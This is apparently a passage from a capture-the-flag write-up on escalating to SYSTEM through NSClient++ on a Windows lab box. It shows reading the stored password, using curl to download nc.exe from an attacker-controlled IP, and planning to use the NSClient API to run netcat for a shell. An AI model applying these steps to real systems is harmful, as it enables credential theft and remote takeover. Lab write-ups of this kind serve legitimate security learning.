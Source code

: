             C:\Program Files\NSClient++>whoami
            whoami
            nt authority\system

First of all we get the password for the NSClient and the content of
`nsclient.ini` in order to see the access restriction. The application is only
available from localhost.

    :::text
    nadine@SERVMON C:\>cd "C:\Program Files\NSClient++"

    nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
    Current password: ew2x6SsGTxjRwXOT


    nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
    ´╗┐# If you want to fill this file with all available options run the following command:
    #   nscp settings --generate --add-defaults --load-all
    # If you want to activate a module and bring in all its options use:
    #   nscp settings --activate-module <MODULE NAME> --add-defaults
    # For details run: nscp settings --help


    ; in flight - TODO
    [/settings/default]

    ; Undocumented key
    password = ew2x6SsGTxjRwXOT

    ; Undocumented key
    allowed hosts = 127.0.0.1
    <SNIP>

Then we upload `nc.exe` from `/usr/share/windows-binaries` using a python simple
http server.

    :::text
    nadine@SERVMON C:\Temp>curl http://10.10.14.200:8081/nc.exe -o nc.exe
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    100 59392  100 59392    0     0  59392      0  0:00:01 --:--:--  0:00:01  264k

We know that the NSClient is only available from localhost. So we mount an SSH
tunnel (`-D` option) and use it as a socks proxy in our browser. Nevertheless
the application is buggy and unstable from a web browser (either Firefox, Chromium or Chrome).

Therefore we use the [NSClient API](https://docs.nsclient.org/api/) directly
from our SSH connection (or we can use `proxychains` with our SOCKS tunnel)
in order to put a simple script that will call our netcat binary.
